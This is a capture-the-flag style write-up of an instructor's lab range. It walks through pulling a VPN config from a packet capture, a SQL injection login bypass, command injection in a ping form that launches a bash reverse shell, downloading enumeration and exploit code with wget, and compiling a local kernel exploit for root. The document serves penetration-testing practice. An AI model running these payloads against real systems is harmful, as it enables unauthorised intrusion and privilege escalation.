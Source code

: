 # Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

Shout out to [@Kyzen-gmg](https://github.com/Kyzen-gmg)  for the range and giving me the idea to do this writeup. 

### It begins...
This is how it started, with a post from an instructor of mine in our class’s Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining1.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys he’s talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. 

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them don’t tell me much. They’re all around 90 in length. Maybe hidden within here is something more substantial. So, I sort by length and find a file that’s a bit longer. 

![S](Images/ThatsBetter.png)

That’s much better! A full OpenVPN key, and with a little research about OpenVPN keys (opening my Try Hack Me key in vim) I find that I can copy this text directly into a file with the extension `.ovpn` and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes port scanning so much quicker and more automated by quickly telling you which ports are up and then constructing an Nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the low hanging fruit (and the best option here), I decide to go check out the website on `8080`. I’m greeted with a basic admin login page with the URL extension, `index.php`. This lets gives me an idea that I may be able to perform some sort of injection, but I’m still not sure.

![S](Images/phpAdminPage.png)

So, I fire up Burp Suite and check out what’s happening when i hit the login button.

![S](Images/burping.png)

Ok there's probably something here. 
Let’s send this to the repeater module in Burp and check out what’s going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, I can manipulate requests for testing the right sort of attack.
I’m focusing on the bottom line of this request, as this is where username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like its the HTML for the login page, but what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console...

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure, that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So, I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always, I set up a net cat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized during engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.


On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately, I didn’t get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.

![S](Images/linenumOutput.png)

## The Final Stage

Now that the OS and Kernel version are both confirmed, it’s a good time to go search for a relevant exploit. I chose to use searchsploit for this on my Kali Box. 

![S](Images/searchsploit.png)

This first exploit looks promising. So, I copy the file to my engagement directory `cp /usr/share/exploitdb/exploits/linux/local/9545.c /your/engagement/directory/9545.c`and start a python http server inside of it `python3 -m http.server`

The server defaults to port 8000, so on the target machine (in /tmp) I ran `wget http://m.y.i.p:8000/9545.c` which copied the exploit over to the target machine.

![S](Images/exploitcopy.png)

Finally, its time to compile and exploit. This can all be done with one single command by to using the gcc compiler on 9545.c and outputting to another file called 9545. Then using `&&` to run the new 9545 file after the compiling is completed.  

The final command looks like this: `$ gcc 9545.c -o 9545 && ./9545`

![S](Images/rootaccess.png)
**ROOT ACHIEVED**

## Final thoughts on this first box

Well, I had a great time with this exercise. It was a good way to get some practice with Linux privilege escalation exploits that I don’t often get to use. Most of my experience with Linux priv esc comes in the form of exploiting cronjobs or SUID permissions. So, this was a welcome change of pace for me. 

Any questions? Comments? Want to tell me I got something wrong? Feel free to contact me via email: jwautry93@gmail.com you can also reach out to me on my [LinkedIn](https://www.linkedin.com/in/jwautry/) 

More write-ups will be coming in the future, so make sure to keep a look out for those. I have 2 more boxes to chronicle in this series and loads more projects to take on after that.

**Thanks for reading!**

-J

